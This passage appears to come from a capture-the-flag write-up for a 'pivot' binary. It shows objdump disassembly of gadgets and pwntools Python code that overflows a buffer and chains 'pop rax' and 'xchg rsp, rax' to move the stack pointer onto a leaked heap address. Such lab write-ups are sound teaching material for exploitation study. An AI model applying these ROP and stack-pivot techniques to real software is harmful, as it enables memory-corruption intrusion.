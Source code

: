```python
pivot_point = get_pivot_point(io.recvline().decode().strip())
...
```

Now that we can consistently get our heap address, we can look for ways to pivot over to that new memory region. The `usefulGadgets` function has 2 gadgets that we can use to achieve this goal:

1. 0x4009bb : pop rax ; ret
2. 0x4009bd : xchg rsp, rax ; ret

```
$ objdump -M intel -D ./pivot
...
00000000004009bb <usefulGadgets>:
  4009bb:       58                      pop    rax
  4009bc:       c3                      ret    
  4009bd:       48 94                   xchg   rsp,rax
  4009bf:       c3                      ret    
  4009c0:       48 8b 00                mov    rax,QWORD PTR [rax]
  4009c3:       c3                      ret    
  4009c4:       48 01 e8                add    rax,rbp
  4009c7:       c3                      ret    
  4009c8:       0f 1f 84 00 00 00 00    nop    DWORD PTR [rax+rax*1+0x0]
  4009cf:       00
...
```

These 2 gadgets give us an easy way to set our stack pointer to the heap area, and it just fits inside the 64 byte window that we are allowed to use.

```python
from pwn import *
...
POPRAX = p64(0x4009bb) # pop rax ; ret
XCHGRSPRAX = p64(0x4009bd) # xchg rsp, rax ; ret
...
attack = b"" # placeholder
io.sendline(attack)
...
# juicy stack pivot
smash = b"A"*0x28
smash += POPRAX + p64(pivot_point) + XCHGRSPRAX # exactly 24 bytes
io.sendline(smash)
...
```

To verify that the stack pivot work, we can try setting the `r15` register to a random value.

```python
from pwn import *
...
POPRAX = p64(0x4009bb) # pop rax ; ret
XCHGRSPRAX = p64(0x4009bd) # xchg rsp, rax ; ret
POPR15 = p64(0x400a32) # pop r15 ; ret
...
attack = POPR15 + b"aaaabbbb" # random value
io.sendline(attack)
...
# juicy stack pivot
smash = b"A"*0x28
smash += POPRAX + p64(pivot_point) + XCHGRSPRAX # exactly 24 bytes
io.sendline(smash)
...
```
